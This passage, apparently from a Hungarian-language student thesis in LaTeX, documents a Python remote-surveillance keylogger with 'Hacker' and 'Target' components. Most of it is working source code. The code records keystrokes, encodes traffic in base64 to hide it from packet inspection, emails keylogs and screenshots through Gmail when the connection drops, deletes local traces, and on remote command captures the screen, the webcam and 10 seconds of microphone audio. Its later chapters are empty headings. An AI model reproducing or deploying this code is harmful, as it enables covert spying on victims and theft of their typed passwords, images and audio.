A kapcsolat létesítésében a $connect2stream$ és a $connect2interact$ függvények játszanak szerepet. A connect2stream megvalósítja a PUB SUB kapcsolatot, míg a connect2interact a REQ REP kapcsolatot. A $CommunicationTarget$ osztály segítségével fog a Target kapcsolódni a Hackerhez. Az $urllib.request$ modul $openurl$ függvényét alkalmazva megnyitunk a publikus ip cím lekérő api-t (https://api.ipify.org) és kérést küldünk, amellyel megkapjuk a Target publikus ip címét.

\subsection{KeyLoggerTarget osztály}\label{subsubsec:keyloggerclientclass}
Ez az osztály valósítja meg a lenyomott billentyűk kezelését. Hat attribútumot tartalmazó osztály: a kapcsolat, gmail cím, gmail jelszó, gmail szolgáltató, gmail port és a lenyomott billentyűt tartalmazó változó.

Az első adat nem követi a megállapított protokolt. Ez az adat tartalmazza a Target rendszerének információit:
\begin{itemize}
\item system name
\item device name
\item release
\item version
\item architecture
\item cpu info
\item user name
\item ip address
\end{itemize}
Ezek után el lesz indítva egy halgató, amely lehalgatja a számítógéphez csatlakoztatott billentyűzetet, amely akkor írja felül a $keys$ attribútumot, amikor a felhaszáló elengedi a billentyűt.
\begin{lstlisting}{language=Python}
keyboard_listener = Listener(on_release=self.on_release)
keyboard_listener.start()
\end{lstlisting}
Az attribútum felülírásáról az $on\_release$ függveny gondoskodik.
\begin{lstlisting}{language=Python}
def on_release(self, key):
	self.keys = key
\end{lstlisting}

A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.

A hálózaton közlekedő adatokat meg lehet nézni a wireshark szoftverrel. Észre lehet venni, hogy az adatok emberileg olvashatóak (ábra \ref{fig:packetcapture}), ezéer a python base64 modulját alkalmazva kódoljuk a küldendő adatokat.
\begin{figure}[H]
\centering

\includegraphics[width=400pt]{../images/wiresharkcapture}
\caption{A csomag wireshark-al elfogva}
\label{fig:packetcapture}
\end{figure}

Ha a kapcsolat felbomlott, akkor e-mail-en keresztül küldi tovább az adatokat óránként. Itt lépnek érvénybe a gmail cím, a jelszó, a gmail szolgáltatás, és a gmail port. Az adat felépítése ugyan úgy zajlik, mint a kapcsolat alatt. Ebben az esetben a lenyomott billentyűket összegyűjti egy állományba és azt csatolja később az e-mail-hez a képernyőképpel együtt. Egy e-mail felépítése python 3-ban:
\begin{lstlisting}{language=Python}
msg = MIMEMultipart()
msg['From'] = self.email_address
msg['To'] = self.email_address
msg['Subject'] = 'Keylogger result'
body = date_time
msg.attach(MIMEText(body, 'plain'))
file_attachment = MIMEBase('application', 'octet-stream')

with open(os.path.join(temp_path, filename), 'rb') as handler:
file_attachment.set_payload(handler.read())

encoders.encode_base64(file_attachment)
file_attachment.add_header('Content-Disposition', "attachment; filename=" + filename)
msg.attach(file_attachment)

if take_screenshot(temp_path):
	image_attachment = MIMEBase('application', 'octet-stream')

	with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
		image_attachment.set_payload(handler.read())

	encoders.encode_base64(image_attachment)
	image_attachment.add_header('Content-Disposition', "attachment; filename=screenshot.png")
	msg.attach(image_attachment)

content = msg.as_string()
\end{lstlisting}
Miután felépítettük az e-mail-t, kell csatlakozni a gmail szolgáltatóhoz és elküldeni azt. Ha az e-mail sikeresen el lett küldve, akkor az az állomány, amelybe a lenyomott billentyűket mentettük, törlésre kerül, hogy ne küldjük el ugyan azt mégegyszer. A $content$ változó tartalmazza a teljes e-mail-t a csatolmányokkal együtt.
\begin{lstlisting}{language=Python}
with smtplib.SMTP(self.smtp_alias, self.smtp_port) as smtp_server:
	smtp_server.starttls()
	smtp_server.login(self.email_address, self.email_password)
	smtp_server.sendmail(self.email_address, self.email_address, content)

if os.path.isfile(os.path.join(temp_path, filename)):
	os.remove(os.path.join(temp_path, filename))
if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
	os.remove(os.path.join(temp_path, "screenshot.png"))
\end{lstlisting}

\subsection{MenuHandlerTarget osztály}\label{subsubsec:menuhandlerclinet}
A $MenuHandlerTarget$ osztály foglalkozik az opciók fogadásával, és az opciók által elvégzett feladatokkal. Ez az osztály egy külön szálon kell, hogy fusson, máskülönben blokkolná a fő szálat, ahol a billentyűzetet hallgató osztály fut, lasd \pageref{subsubsec:keyloggerclientclass}. oldal \ref{subsubsec:keyloggerclientclass}, ezért a $Thread$ osztályból származtatjuk.
A Hacker oldaltól kapott opciók döntik el, hogy milyen adatot épít fel, és küld el a program:
\begin{itemize}
\item 1 - képernyőkép
\item 2 - webkamerakép
\item 3 - hangrögzítés
\item 4 - felbontja a kapcsolatot
\end{itemize}
\begin{lstlisting}{language=Python}
date_time = datetime.now().strftime("%d_%H_%M_%S")
if option == '1':
	data = ["image", date_time]

	if take_screenshot(temp_path):
		if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
			with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '2':
	data = ["wcpic", date_time]

	if take_webcam_picture(temp_path):
		if os.path.isfile(os.path.join(temp_path, "wc_picture.png")):
			with open(os.path.join(temp_path, "wc_picture.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '3':
	data = ["audio", date_time]

	if record_audio(temp_path):
		if os.path.isfile(os.path.join(temp_path, "rec_audio.wav")):
			with open(os.path.join(temp_path, "rec_audio.wav"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '4' or stop_threads:
	data = ["close", date_time, "Exit"]
	data =base64.b64encode(str(data).encode()).decode()
	self.connection.socket_stream.send_string(data)
	self.connection.socket_stream.close()
	self.connection.socket_interact.close()
	break
\end{lstlisting}

A $take\_screenshot$ függvény fogja megcsinálni a képernyőképet, amely igazat térít vissza, ha sikerült lementenie a képet a $save\_path$ változó tartalmazta helyre. Ugyan ezek érvényesek a $take\_webcam\_picture$ és a $record\_audio$ függvényekre is.
\begin{lstlisting}{language=Python}
def take_screenshot(save_path):
	try:
		pyautogui.screenshot(os.path.join(save_path, "screenshot.png"))
	except:
		return False
	return True

	
def take_webcam_picture(save_path):
	video_capture = cv2.VideoCapture(0)
	if video_capture.isOpened():
		rval, frame = video_capture.read()
		cv2.imwrite(os.path.join(save_path, "wc_picture.png"), frame)
		return True
	return False


def record_audio(save_path):
	chunk = 1024
	sample_format = pyaudio.paInt16 # 16 bits per sample
	channels = 2
	fs = 44100 # Record at 44100 samples per second
	seconds = 10

	pa = pyaudio.PyAudio()

	try:
		stream = pa.open(format=sample_format, channels=channels, rate=fs, frames_per_buffer=chunk, input=True)
		frames = []

		for i in range(0, int(fs / chunk * seconds)):
			data = stream.read(chunk)
			frames.append(data)

		stream.stop_stream()
		stream.close()
		pa.terminate()

		wf = wave.open(os.path.join(save_path, "rec_audio.wav"), 'wb')
		wf.setnchannels(channels)
		wf.setsampwidth(pa.get_sample_size(sample_format))
		wf.setframerate(fs)
		wf.writeframes(b''.join(frames))
		wf.close()
	except:
		return False
	return True
\end{lstlisting}
A hangrögzítés egy kicsivel másképp kezelendő, mert meg kell mondani, hogy egy részt hány bájton abrázoljon (1024), milyen formátumba ábrázolja (16 bit int), hány csatornán (2) ábrázolja a hanghullámokat, mekkora frekvencián (44.1 kHz) és hány másodperces felvételt akarunk elmenteni (10). Ezek a függvények egy úgynevezett $utils.py$ mellékállományban vannak implementálva, ami említésre kerül a komponensek bemotatásánál.

\chapter{A rendszer felhasználása}\label{sec:useage}

\chapter{Üzembe helyezés és kísérleti eredmények}\label{sec:testcases}

\chapter{Következtetések}\label{sec:conc}

% table of figures
\renewcommand{\listfigurename}{Ábrák jegyzéke}
\listoffigures
\thispagestyle{empty}
\cleardoublepage

% table of tables
\renewcommand{\listtablename}{Táblázatok jegyzéke}
\listoftables
\thispagestyle{empty}
\cleardoublepage

\chapter{Irodalomjegyzék}\label{sec:irod}
\printbibliography[title={\ }]

\chapter{Függelék}\label{sec:dep}

\end{document}